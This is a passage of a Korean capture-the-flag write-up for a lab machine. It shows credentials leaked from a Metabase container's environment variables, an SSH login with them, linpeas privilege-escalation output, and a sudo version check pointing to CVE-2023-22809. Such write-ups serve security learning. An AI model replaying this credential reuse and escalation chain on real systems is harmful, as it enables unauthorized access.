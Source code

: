 ```
export META_PASS='An4lytics_ds20223#'
export META_USER='metalytics'
export OLDPWD='/'
export PATH='/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
export PWD='/metabase.db'
export SHELL='/bin/sh
```

획득한 계정 정보를 갖고 ssh로 로그인 시 성공적으로 로그인 된다.
``` bash
┌──(root㉿kali)-[/home/user/htb/metabase-pre-auth-rce-poc]
└─# ssh metalytics@10.10.11.233
metalytics@10.10.11.233's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

metalytics@analytics:~$ ls
user.txt
metalytics@analytics:~$ cat user.txt
```

이후 linpeas.sh로 정보를 수집해보았더니 흥미로운 문구가 보인다. sudo 부분에 버전이 취약한지 확인해보라는 것이다.
``` bash
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 40K Nov 24  2022 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 71K Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55K Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35K Feb 21  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 44K Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 35K Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 227K Apr  3  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 59K Nov 24  2022 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 47K Feb 21  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 72K Nov 24  2022 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-- 1 root messagebus 35K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

sudo의 버전을 확인해보니 1.9.9라고 나온다. 관련 키워드로 검색해보니 [CVE-2023-22809](https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/tree/main) 자료가 나온다
``` bash
metalytics@analytics:~$ sudo --version
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```
